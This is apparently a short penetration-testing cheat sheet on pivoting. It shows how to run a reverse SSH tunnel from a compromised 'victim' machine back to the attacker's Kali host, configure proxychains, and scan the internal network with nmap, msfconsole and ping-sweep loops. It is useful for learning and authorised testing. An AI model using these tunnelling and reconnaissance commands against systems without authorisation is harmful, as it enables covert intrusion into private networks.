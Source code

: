 # Pivoting to an Internal Network with proxychains and SSH

Think of pivoting like: creating a tunnel for kali to wrap traffic within 
- This forces traffic from the kali machine thru the tunnel FIRST, thus allowing scanning the internal network from the victim machine
- traffic looks like it is coming from internal
- possible on any client with SSH client *OVER 7.6*

## On attacker

`sudo vim /etc/proxychains4.conf`
- Comment out `strict_chain`
- Uncomment `dynamic_chain`
- Comment out `proxy_dns`
- Uncomment `quiet_mode`
- Change the default at the bottom to: `socks5 127.0.0.1 <portUchoose>`
    - be sure this port is unique

Make sure ssh is listening -> `sudo systemctl start/status ssh.service`

## On Victim

`sudo ssh -N -f -R 127.0.0.1:<ipSetOnKali> user@attacker -p <differentPort>`
- you should see the regular prompts from SSH, after accepting the connection and typing the password...
- Check on attacker box `netstat -natp` you should see an open listener on 127.0.0.1<port>
- This port that is picked NEEDS to be forwarded on the router, preferably forwarding to port 22 on the host, that way we dont need to make ssh config changes

Now you can run nmap scans and even wrap tools like msfconsole in the proxy! No need to fumble around seeing if modules are even compatable with proxies.

Keep in mind, nmap *MUST* be run with: `-sT -Pn`. Without these the scan will fail as we only have access to L7 thru proxychains.

You can run a ping sweep from the victim box by: (thanks to Gadoof for these)

Windows `for /l %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "Reply"` 

Linux `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done `

Copy the Data to kali and now you have internal targets!


